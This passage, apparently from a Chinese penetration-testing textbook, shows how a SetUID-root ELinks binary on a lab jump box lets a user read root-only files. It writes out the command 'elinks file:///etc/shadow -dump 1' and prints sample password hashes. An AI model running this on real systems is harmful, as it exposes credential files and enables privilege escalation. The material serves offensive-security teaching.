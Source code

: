 图 9-2：使用 ELinks 命令行网页浏览器浏览 Google

在*p-jumpbox-01*（172.16.10.13）的备份用户帐户上，你应该能找到位于*/usr/bin/elinks*的 ELinks 二进制文件。要验证是否设置了 SetUID，可以使用 ls 或 stat 命令：

```
$ **stat /usr/bin/elinks**

  File: /usr/bin/elinks
  Size: 1759424       Blocks: 3440       IO Block: 4096   regular file
Device: 0,57 Inode:  4763007             Links: 1
Access: **(4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)**
`--snip--` 
```

当我们运行 ELinks 时，它将在*root*上下文中执行，因此如果我们能让它做一些有趣的事，比如读取本地文件，我们应该能够访问仅限*root*用户访问的敏感文件。通过传递 --help 标志来探索 ELinks 的选项：

```
$ **elinks --help**

Usage: elinks [OPTION]... [URL]...
Options:
  -anonymous [0|1]      Restrict to anonymous mode
  -auto-submit [0|1]    Autosubmit first form
  -base-session <num>   Clone internal session with given ID
`--snip--` 
```

接下来，使用 -dump 1 标志来读取网站地址并将其打印到标准输出流：

```
$ **elinks https://google.com -dump 1**
```

ELinks 应该从网站解析数据，例如链接集合，并将其打印到终端。

我们如何利用这种行为呢？就像*http://*或*https://*协议允许我们从网站读取数据一样，*file:/// *协议允许网页浏览器读取本地系统上的文件。由于我们是以 root 用户身份运行，我们可以读取敏感路径，例如*/etc/shadow*，该文件存储密码的哈希值：

```
$ **elinks file:///etc/shadow -dump 1**

root:*:19523:0:99999:7::: daemon:*:19523:0:99999:7:::
jmartinez:$y$j9T$jHIwZ8SKS4GGK9GrHOHTu.$rOJY2gSlP6ZgN2IB0qoW0oBFgs6DWiBH
acroSQw8Ir7:19536:0:99999:7:::
dbrown:$y$j9T$hDNnbY/r00FC/jeE4BfCL1$6HbLxT8T7D6sUebz1T0fp0xdTjIjVoWjTLM
DMdiHZBD:19536:0:99999:7:::
ogarcia:$y$j9T$aiqqNSE8dqtvZ62otyoOB/$2mLRlxi4iSlJxV5qTjbqdKSVyc4aGFKtpz
pn4YjZNID:19536:0:99999:7:::
arodriguez:$y$j9T$htdo8u5CtRaOiHkFxx.s7/$lzBMPHzw96si.CI3eIFjJj0FfdqwgNH
efhya0VpQso.:19536:0:99999:7:::
`--snip--` 
```

需要注意的是，尽管我们滥用了 ELinks，但并没有利用 ELinks 本身的漏洞；相反，我们利用了一个众所周知的浏览器功能，配合 SetUID 位进行恶意操作。

## 寻找凭证

